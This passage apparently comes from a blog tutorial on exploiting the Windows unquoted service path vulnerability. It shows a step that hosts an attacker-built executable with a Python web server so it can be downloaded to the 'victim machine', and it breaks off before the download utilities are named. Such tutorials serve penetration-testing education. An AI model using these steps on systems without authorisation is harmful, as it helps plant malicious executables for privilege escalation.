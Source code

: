 ![](/assets/img/posts/unquoted-service-path-vulnerability/22.jpg)<br><br>

Now we need to download the executable to the victim machine.
<br>Run this in the directory that your executable locates. It will start a web server inside of that directory.
{% highlight bash %}
python -m http.server 80
{% endhighlight %}


![](/assets/img/posts/unquoted-service-path-vulnerability/23.jpg)<br><br>
<br>You can download any file from the running python server by using one of these utilites.
